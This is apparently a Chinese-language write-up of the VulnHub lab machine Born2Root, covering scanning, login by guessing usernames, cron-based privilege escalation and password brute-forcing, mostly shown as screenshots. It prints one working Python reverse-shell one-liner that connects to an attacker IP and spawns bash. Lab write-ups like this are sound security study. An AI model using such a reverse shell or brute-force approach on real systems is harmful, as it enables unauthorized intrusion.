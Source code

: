 +++
title = '0x046 Born2Root'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



还是向virtualbox妥协了，这次这个问题出现在导入的地方，不是很好解决

# 端口扫描

![](/vulnhub_img/WEBRESOURCE5df578715597c3b49f4243d472dcbbc3image.png)

![](/vulnhub_img/WEBRESOURCEc09a104349dea9c2b05f1e7c2aa9cc16image.png)

![](/vulnhub_img/WEBRESOURCE85c695b652a1e26fe7e61944e338dbe5image.png)

# 渗透

![](/vulnhub_img/WEBRESOURCEf4c5bbbe1a9792b52962a819a7b4cc04image.png)

![](/vulnhub_img/WEBRESOURCE0ed3c7892f2075a49877697a30ee67edimage.png)

发现有效信息：

![](/vulnhub_img/WEBRESOURCE791506b014227d0912174c412d54b9bbimage.png)

![](/vulnhub_img/WEBRESOURCEae0a0635ac2108b46d4ef9863d41e88dimage.png)

但是不知道用户名，只能把首页上的用户名都试试了：

出现一个提示不支持的签名，这个之前遇到过，需要改一下配置文件：

![](/vulnhub_img/WEBRESOURCEdf3314cbc19624c5b2a130d6a462eae8image.png)

好像登录上去了：

![](/vulnhub_img/WEBRESOURCE1b65f822c742c7e7f7868a350631fab3image.png)

# 提权

这次提权有点意思，很多命令被禁用了，只手动挨个找，总于在查找计划任务时找到线索：

![](/vulnhub_img/WEBRESOURCEac6037d08b857388dd6d8efbd7ed288aimage.png)

先提权到jimmy用户吧：

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.104",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

![](/vulnhub_img/WEBRESOURCEe212692feb11cec236b7b3330307807bimage.png)

发现SUID权限程序：

![](/vulnhub_img/WEBRESOURCE94e264ca953699e363b42570e8725b55image.png)

但是使用了绝对路径，相关文件没有权限：

![](/vulnhub_img/WEBRESOURCEb2f5d8b89510e579bc0e9344a36bd0faimage.png)

后面无奈看了WP，结果还是爆破，当初直接爆破会不会更好呢，不同的是，这次cewl的密码本不太够了。实测john生成的不太好用，规则太死了：

需要生成特定的社工字典：

[https://www.bugku.com/mima/](https://www.bugku.com/mima/)

![](/vulnhub_img/WEBRESOURCEfcff4143ec5542e6d7d585d15b533b43image.png)

然后爆破成功：

![](/vulnhub_img/WEBRESOURCEc7c9bf37e31fa4bd34ce742a8c2776c1image.png)

这也是root密码：

![](/vulnhub_img/WEBRESOURCE94a07ea7c2aea512e552e831322422e5image.png)